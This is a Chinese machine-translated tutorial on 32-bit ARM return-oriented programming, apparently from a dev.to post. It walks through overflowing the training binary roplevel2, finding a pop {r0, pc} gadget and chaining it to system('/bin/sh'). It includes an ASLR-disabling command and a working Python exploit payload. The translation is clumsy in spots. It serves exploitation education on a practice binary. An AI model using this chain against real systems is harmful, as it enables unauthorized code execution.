









# ARM 上面向返回的编程(32 位)

> 原文：<https://dev.to/icyphox/return-oriented-programming-on-arm-32-bit-436m>

在我们开始*任何事情*之前，你应该知道手臂装配的基本知识。我强烈推荐 [Azeria 的](https://twitter.com/fox0x01)系列关于[手臂组装基础](https://azeria-labs.com/writing-arm-assembly-part-1/)。一旦你适应了，就可以继续下一步——环境设置。

### 设置

由于我们使用的是 ARM 架构，因此有两个选项可供选择:

1.  仿真——前往[qemu.org/download](https://www.qemu.org/download/)安装 QEMU。然后从其中一个链接[这里](https://blahcat.github.io/qemu/)下载并提取 ARMv6 Debian Stretch 镜像。里面的脚本应该是不言自明的。
2.  使用实际的 ARM 硬件，如 RPi。

为了调试和拆卸，我们将使用普通的老式`gdb`，但是你也可以使用`radare2`、IDA 或其他任何东西，真的。所有这些都可以轻松安装。

为了简单起见，禁用 ASLR:

```
$ echo 0 > /proc/sys/kernel/randomize_va_space 
```

最后，我们将在这个练习中使用的二进制是[比利埃利斯的](https://twitter.com/bellis1000) [roplevel2](///static/files/roplevel2.c) 。

编译一下:

```
$ gcc roplevel2.c -o rop2 
```

说完这些，下面我们来快速浏览一下 ROP 到底是什么。

### ROP 入门

面向 ROP 或返回的编程是一种现代开发技术，用于绕过保护，如 **NX 位**(非执行位)和**代码签名**。本质上，二进制文件中没有任何代码被真正修改，整个漏洞利用是在二进制文件中预先存在的工件基础上精心制作的，这些工件被称为**小工具**。

gadget 本质上是一小段代码(指令)，以一个`ret`或返回指令结束。在我们的例子中，因为我们处理的是 ARM 代码，所以没有`ret`指令，而是一个`pop {pc}`或`bx lr`。这些小工具通过从一个跳到(返回)另一个上而被*链接在一起，形成所谓的**链条**。在一个 ropchain 的末尾，通常会有一个对`system()`的调用，以实现代码执行。*

实际上，执行 ropchain 的过程是这样的:

*   确认存在基于堆栈的缓冲区溢出
*   确定指令指针被覆盖的偏移量
*   找到您希望使用的小工具的地址
*   记住堆栈的布局，精心设计你的输入，并链接你的小工具的地址

LiveOverflow 有一个[的漂亮视频](https://www.youtube.com/watch?v=zaQVNM3or7k&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=46&t=0s)，他用“奇怪的机器”解释 ROP。看看吧，这可能正是你所需要的“啊哈！”瞬间:)

还不明白吗？不要担心，我们一会儿会看一下*实际的*漏洞利用代码，希望这能让我们看清事情的真相。

### 探索我们的双星

首先运行它，并输入任意字符串。在输入一个相当大的字符串时，比如说“A”×20，我们会看到一个分段错误。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--tbU_GjNE--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/string_segfault.png)

现在，在`gdb`中打开它，看看里面的功能。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--DMdn1vw---/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_functions.png)

这里有三个重要的功能，`main`、`winner`和`gadget`。拆卸`main`功能:

[](https://res.cloudinary.com/practicaldev/image/fetch/s--zjO1GJip--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_main_disas.png)

我们看到一个 16 字节的缓冲区被创建(`sub sp, sp, #16`)，以及一些对`puts()` / `printf()`和`scanf()`的调用。看来`winner`和`gadget`从来没有真正被调用过。

拆卸`gadget`功能:

[](https://res.cloudinary.com/practicaldev/image/fetch/s--nxequwMO--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_gadget_disas.png)

这相当简单，堆栈通过`push`调用`{r11}`进行初始化，T1 也是帧指针(`fp`)。有趣的是中间的`pop {r0, pc}`指令。这是一个**小玩意**。

我们可以用这个来控制进入`r0`和`pc`的内容。与在 x86 中函数的参数在堆栈上传递不同，在 ARM 中寄存器`r0`到`r3`用于此目的。所以这个小工具有效地允许我们使用`r0`向函数传递参数，然后通过在`pc`中传递它的地址来跳转到它们。干净利落。

继续拆卸`winner`功能:

[](https://res.cloudinary.com/practicaldev/image/fetch/s--aLpJMXLo--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_disas_winner.png)

在这里，我们看到了对`puts()`、`system()`和最后`exit()`的调用。因此，很明显，我们的最终目标是通过`system()`函数执行代码。

现在我们已经对二进制文件中的内容有了一个大致的了解，让我们通过对输入进行处理来制定一个利用方法。

回到`gdb`，点击`r`运行并传入一个模式化的输入，如截图所示。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--rKa1t_ZI--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_info_reg_segfault.png)

由于地址`0x46464646`的无效内存，我们遇到了 segfault。注意`pc`已经被我们的输入覆盖了。所以我们砸碎了堆栈，但更重要的是，它在字母 F 处。

因为我们知道了`pc`被覆盖的偏移量，我们现在可以控制程序执行流程。让我们试着跳到`winner`函数。

使用`disas winner`再次分解`winner`，并记下第二个指令`add r11, sp, #4`的偏移量。为此，我们将使用 Python 打印输入字符串，用地址`winner`替换`FFFF`。注意字节序。

```
$ python -c 'print("AAAABBBBCCCCDDDDEEEE\x28\x05\x01\x00")' | ./rop2 
```

[](https://res.cloudinary.com/practicaldev/image/fetch/s--gbZaXagD--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/python_winner_jump.png)

我们不跳到第一条指令的原因是因为我们想自己控制堆栈。如果我们允许`push {rll, lr}`(第一条指令)发生，程序将在`winner`完成执行后`pop`那些指令，我们将不再控制它跳转到哪里。

所以这并没有做太多，只是打印出一个字符串“这里没什么…”。但是它*却*包含`system()`。它需要填充一个参数来完成我们想要的任务(运行一个命令，执行一个 shell，等等)。).

为此，我们将遵循一个多步骤流程:

1.  再次跳转到第 2 条指令`gadget`的地址。这将`pop` `r0`和`pc`。
2.  将我们要执行的命令压入堆栈，说“`/bin/sh`”。这将进入`r0`。
3.  然后，推送`system()`的地址。这将进入`pc`。

伪代码大概是这样的:

```
string = AAAABBBBCCCCDDDDEEEE
gadget = # addr of gadget
binsh = # addr of /bin/sh
system = # addr of system()

print(string + gadget + binsh + system) 
```

干净又刻薄。

### 借题发挥

为了编写这个漏洞，我们将使用 Python 和一个绝对天赐的库— `struct`。它允许我们将地址的字节打包成我们选择的字节顺序。它可能做得更多，但谁在乎呢。

让我们从获取`/bin/sh`的地址开始。在`gdb`中，在`main`设置一个断点，点击`r`运行，在整个地址空间中搜索字符串`/bin/sh`:

```
(gdb) find &system, +9999999, "/bin/sh" 
```

[](https://res.cloudinary.com/practicaldev/image/fetch/s--47WmBQic--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/gdb_find_binsh.png)

一击命中`0xb6f85588`。`gadget`和`system()`的地址可以从之前的拆解中找到。下面是最终的漏洞利用代码:

```
import struct

binsh = struct.pack("I", 0xb6f85588)
string = "AAAABBBBCCCCDDDDEEEE"
gadget = struct.pack("I", 0x00010550)
system = struct.pack("I", 0x00010538)

print(string + gadget + binsh + system) 
```

老实说，离我们的伪代码不算太远:)

让我们来看看它的实际应用:

[](https://res.cloudinary.com/practicaldev/image/fetch/s--lEIVvGFb--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/the_shell.png)

注意，它第一次没有工作，这是因为当管道关闭时`/bin/sh`终止，因为没有来自 STDIN 的输入。为了解决这个问题，我们使用了`cat(1)`,它允许我们通过它将输入传递给 shell。漂亮的把戏。

### 结论

这是一个相当基本的挑战，一切都很方便。实际的 ropchaining 稍微复杂一些，有更多的小工具被链接到一个有效的代码执行。

希望我也能开始写关于 ARM 上堆利用的文章。目前就这些。